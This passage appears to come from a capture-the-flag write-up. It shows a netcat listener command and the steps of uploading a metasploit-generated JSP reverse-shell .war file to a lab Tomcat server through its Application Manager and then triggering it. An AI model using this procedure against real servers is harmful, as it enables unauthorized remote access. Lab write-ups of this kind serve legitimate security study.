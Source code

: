 We make a note of the randomly generated `yxyonnwa.jsp` metasploited used for
the javaserver page reverse shell code. This is important because we will need
to know it to access our code from the Tomcat server.

Before we launch our attack, we need to setup a listener on our local machine
to catch the reverse shell.

```
$ nc -v -l -p 4444
listening on [any] 4444 ...
```

Now we upload our `.war` payload to Tomcat through the Tomcat Application
Manager..

<img src="tomcat-upload.jpg" width=500px>

.. and we can navigate to `10.10.10.95:8080/filoshell/yxyonnwa.jsp` to trigger
our exploit application (Tomcat manager application will by default put files
located inside the `.war` archive in a directory under the archive name).

<img src="reverse-shell.jpg" width=500px>
